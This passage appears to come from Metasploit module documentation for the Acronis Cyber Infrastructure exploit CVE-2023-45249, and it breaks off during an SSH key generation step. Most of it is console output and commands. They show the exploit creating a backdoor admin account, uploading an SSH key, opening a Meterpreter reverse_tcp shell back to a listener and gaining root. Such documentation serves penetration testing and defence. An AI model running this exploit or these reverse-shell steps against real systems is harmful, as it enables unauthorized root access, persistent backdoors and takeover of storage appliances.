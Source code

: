 ```msf
[*] Getting the cluster information to upload the SSH public key at the Acronis Admin Portal.
[*] Uploading SSH public key at the Acronis Admin Portal.
[*] Authenticating with SSH private key.
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 192.168.201.5
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.5:51488) at 2024-09-15 19:45:46 +0000

meterpreter > sysinfo
Computer     : aci-471-53.vstoragedomain
OS           : Red Hat 4.7 (Linux 3.10.0-1160.41.1.vz7.183.5)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
### Acronis Cyber Infrastructure 4.7 appliance Interactive SSH
```msf
msf exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set target 1
target => 1
msf exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 4.7.1-53
[*] Creating admin user exvk1 with password NcwVNFNL3t for access at the Acronis Admin Portal.
[*] Saving admin credentials at the msf database.
[*] Creating SSH private and public key.
[*] Saving SSH public and private key pair at the msf database.
[*] Getting the cluster information to upload the SSH public key at the Acronis Admin Portal.
[*] Uploading SSH public key at the Acronis Admin Portal.
[*] Authenticating with SSH private key.
[*] Executing Interactive SSH for generic/ssh/interact
[*] SSH session 1 opened (192.168.201.8:36279 -> 192.168.201.5:22) at 2024-09-16 17:56:56 +0000

pwd
/root
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux aci-471-53.vstoragedomain 3.10.0-1160.41.1.vz7.183.5 #1 SMP Thu Sep 23 18:26:47 MSK 2021 x86_64 x86_64 x86_64 GNU/Linux
```
### Acronis Cyber Infrastructure 4.7 appliance Interactive SSH using your own SSH private key file in PEM format
```msf
msf exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > ssh-keygen -t rsa -b 2048 -m PEM -f /tmp/aci_rsa
[*] exec: ssh-keygen -t rsa -b 2048 -m PEM -f /tmp/aci_rsa

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /tmp/aci_rsa
Your public key has been saved in /tmp/aci_rsa.pub
The key fingerprint is:
SHA256:H1Ewu7NLZdYIV4SQZPhsaGkXb/IG9fQgZEjqfKBRTIg root@cerberus
The key's randomart image is:
+---[RSA 2048]----+
|     . +o+B*+oo  |
|    E ..oo+=+.o  |
```